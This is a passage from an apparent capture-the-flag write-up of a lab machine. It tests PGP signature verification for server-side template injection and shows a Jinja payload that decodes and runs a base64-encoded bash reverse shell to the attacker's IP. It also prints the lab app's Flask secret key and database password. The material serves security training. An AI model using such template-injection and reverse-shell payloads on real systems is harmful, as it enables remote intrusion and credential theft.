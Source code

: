 ```vim
sub   rsa3072 2023-06-22 [E]

┌──(kali㉿kali)-[~/sandworm]
└─$ gpg --armor --export 505C38FF7B1287FFFC87A6FEE8050924E010BDB5

...

┌──(kali㉿kali)-[~/sandworm]
└─$ gpg --armor --sign lmao.txt
```

This will give us a public key and a signed message, now if enter this and try to verify the signed message, we get the following:

```
Signature is valid!

[GNUPG:] NEWSIG
gpg: Signature made Thu 22 Jun 2023 05:53:11 PM UTC
gpg:                using RSA key 505C38FF7B1287FFFC87A6FEE8050924E010BDB5
[GNUPG:] KEY_CONSIDERED 505C38FF7B1287FFFC87A6FEE8050924E010BDB5 0
[GNUPG:] SIG_ID 8LDM4vvSPuUjC1wVTI3W6FSUDmk 2023-06-22 1687456391
[GNUPG:] KEY_CONSIDERED 505C38FF7B1287FFFC87A6FEE8050924E010BDB5 0
[GNUPG:] GOODSIG E8050924E010BDB5 49 (81) <a@a.com>
gpg: Good signature from "49 (81) <a@a.com>" [unknown]
[GNUPG:] VALIDSIG 505C38FF7B1287FFFC87A6FEE8050924E010BDB5 2023-06-22 1687456391 0 4 0 1 10 00 505C38FF7B1287FFFC87A6FEE8050924E010BDB5
[GNUPG:] TRUST_UNDEFINED 0 pgp
gpg: WARNING: This key is not certified with a trusted signature!
gpg:          There is no indication that the signature belongs to the owner.
Primary key fingerprint: 505C 38FF 7B12 87FF FC87  A6FE E805 0924 E010 BDB5
```

This has not only executed the `{{7*7}}` but also the `{{9*9}}`. Upon further testing, we realize that when you write SSTI payload in the comments part of the PGP key, then you can't use certain characters which lets us know that our main attack vector will be the `Real Name` part of the PGP key. We can try to make a PGP key to get a reverse shell, however a traditional reverse shell payload doesn't seem to work too well so we will alter our shell payload to be base64 encoded so that the RCE will simply decode and execute the decoded content.

```python
Payload: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi85MDAwIDA+JjEK | base64 -d | bash').read() }}
```

This gives us a shell as `atlas`, however the shell seems to be a little weird as I cannot run commands like `rm` or `sudo` which had me a little confused. Looking into `var/www/html/SSA/SSA/__init__.py` we see the following:

```python
cat __init__.py
from flask import Flask
from flask_login import LoginManager
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

def create_app():
    app = Flask(__name__)

    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'

    db.init_app(app)

    # blueprint for non-auth parts of app
    from .app import main as main_blueprint
```